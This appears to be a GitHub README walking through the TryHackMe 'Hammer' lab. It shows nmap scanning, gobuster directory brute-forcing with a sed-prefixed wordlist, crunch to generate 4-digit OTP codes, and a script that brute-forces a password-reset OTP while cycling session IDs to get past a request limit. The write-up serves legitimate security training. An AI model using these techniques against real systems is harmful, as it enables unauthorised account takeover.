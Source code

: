 # hammer.thm
Resources I used to solve the THM Hammer room


## Add target to etc/hosts
```
echo target hammer.thm >> etc/hosts
```

## Scan open ports
`nmap -p- hammer.thm`

Open browser and navigate to hammer.thm:1337

## Gobuster directory bruteforcing
```
gobuster -u http://hammer.thm:1337 -w Tools/wordlists/dirbuster/directory-list-1.0.txt dir
```
## Sed to substitute hmr_ at the beginning of each directory in the list
```
cp Tools/wordlists/dirbuster/directory-list-1.0.txt list.txt
```
Now to format the entries:
```
sed -i 's/^/hmr_/' list.txt
```
Then use gobuster again with the updated directories list:
```
gobuster -u http://hammer.thm:1337 -w list.txt dir
```
Which gives us the following result:
![](Assets/hmr_gobuster.PNG)
In hmr_logs there is a reference to the user tester@hammer.thm. Great! Let's use that in our reset_password feature.
## Crunch to create OTP list for bruteforcing
From the reset_password.php page, we know it's expecting a 4 digit OTP code
```
crunch 4 4 -o otp.txt -t %%%% -s 0000 -e 9999
```
Note: In hindsight I could have made the range 1000 to 9999 instead, since there were no valid codes from 0000 to 1000

## Use script.py to enumerate 
Challenges: The session ID has a timeout of 5 requests, so I had to keep regenerating session IDs with a POST request to index.php every 5 requests
```
python3 script.py 
```
There will be multiple VALID codes, just keep an eye on the terminal until one pops up and use it



